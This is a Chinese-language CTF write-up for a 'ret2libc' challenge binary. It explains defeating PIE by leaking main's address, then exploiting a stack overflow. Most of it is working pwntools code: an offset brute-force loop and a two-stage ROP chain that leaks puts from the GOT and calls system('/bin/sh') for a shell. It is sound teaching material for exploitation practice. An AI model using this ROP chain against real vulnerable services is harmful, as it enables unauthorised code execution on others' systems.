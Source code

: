 # ret2libc 

From 0rays.

## 文件分析

下载`ret2libc`, NX on, PIE on, RELRO full  
ghidra分析为64位程序

## 逆向

main函数中先是scan了一个int，可以利用它来*泄露main的地址*以找到PIE偏移  
然后一个read提供*栈溢出*的空间  
和ciscn那题一样，就能完成ret2libc

## EXPLOIT

通过爆破获取main的偏移，如果打印出来的地址以0000结尾，则爆破成功

```python
for offset in range(8, 128, 8):
    sh = remote("???", 10022)
    sh.sendline(str(offset).encode())
    data = sh.recvline()
    data = sh.recvuntil(b'sh')
    pieBase = u64(data[-8:-2] + b'\0\0') - main
    print(hex(pieBase))
    sh.close()
```

```python
from pwn import *
sh = remote('???', 10022)
elf = ELF('ret2libc')

sh.sendline(b'56') # Locating address of main on stack
sh.recvline() # skip
data = sh.recvuntil(b'sh')

main = elf.symbols['main']
pieBase = u64(data[-8:-2] + b'\0\0') - main
putsPlt = pieBase + elf.plt['puts']
putsGot = pieBase + elf.got['puts']
popRdiAddr = pieBase + 0x923
mainAddr = pieBase + main

print(hex(pieBase))

# payload 1
sh.sendline(b'0'*0x18 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(mainAddr))

sh.recvuntil(b'shoot!\n') # skip
data = sh.recvline()

# 题中已给出libc
libcBase = u64(data[:6] + b'\0\0') - 0x80970
systemAddr = libcBase + 0x4f420
shstrAddr = libcBase + 0x1b3d88
retAddr = pieBase + 0x8bb

sh.sendline(b'0') # 埋伏我一手
# payload 2
sh.sendline(b'0'*0x18 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr))

sh.interactive()
```

## 本题获得的教训

由于远端libc的不同，main在stack上的地址也是不一样的

Done.
